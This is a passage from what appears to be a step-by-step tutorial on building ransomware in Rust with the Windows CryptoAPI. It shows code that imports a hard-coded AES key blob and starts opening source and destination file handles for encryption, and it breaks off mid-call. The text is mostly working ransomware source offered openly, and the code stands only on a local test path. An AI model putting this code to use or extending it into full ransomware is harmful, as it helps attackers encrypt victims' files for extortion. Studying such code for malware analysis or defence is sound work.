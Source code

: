 On a new machine, we can just get the key container and import this pre-coded BLOB.


``` rust
    let mut h_key: HCRYPTKEY = 0usize; // key
    let mut h_crypt_prov: HCRYPTPROV = 0usize;

    CryptAcquireContextA(
        &mut h_crypt_prov,  // phProv, our handle to the key container
        null_mut(),         // szContainer, the key container name.
        null_mut(),         // szProvider, name of CSP to be used
        PROV_RSA_AES,       // dwProvType, cryptographic provider type
        CRYPT_VERIFYCONTEXT,// dwFlags, flag values
    );


    let mut blob_buffer: Vec<u8> = [
        8, 2, 0, 0, 15, 102, 0, 0, 24, 0, 0, 0, 8, 68, 217, 142, 222, 209, 85, 216, 44, 88, 2,
        170, 248, 210, 84, 119, 53, 196, 64, 96, 252, 205, 231, 229,
    ]
    .to_vec();

    CryptImportKey(
        h_crypt_prov,               // hProv, handle to key container
        blob_buffer.as_ptr(),       // pbData, BLOB buffer
        blob_buffer.len() as u32,   // dwDataLen, length of BLOB
        0,                          // hPubKey, handle to public key
        0,                          // dwFlags, flags only used to public/private key pairs
        &mut h_key,                 // phKey, mutable pointer to the key to extract
    );
```


After finish importing, we will see our key value in *h_key*. 


This key does not look exactly the same as the original key we generated, but it should work if we use it to encrypt and decrypt thanks to AES mathematical clutchness.



#### 5. Encrypt file


With the key imported from the BLOB, we can start encrypting any file we want.


First, we need to create a handle for a source file and the destination file with [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea).



``` rust
    let source_handle: HANDLE = CreateFileA(
            CString::new(
                "C:\\Users\\chuon\\OneDrive\\Desktop\\Rust-Ransomware\\testing_ransom\\source.txt",
            )
            .unwrap()
            .as_ptr(),
            FILE_READ_DATA,
            FILE_SHARE_READ,
            null_mut(),
            OPEN_EXISTING,
            FILE_ATTRIBUTE_NORMAL,
            null_mut(),
    );

    let mut dest_handle: HANDLE = CreateFileA(
        CString::new("C:\\Users\\chuon\\OneDrive\\Desktop\\Rust-Ransomware\\testing_ransom\\encrypted.txt").unwrap().as_ptr(),
        FILE_WRITE_DATA,
```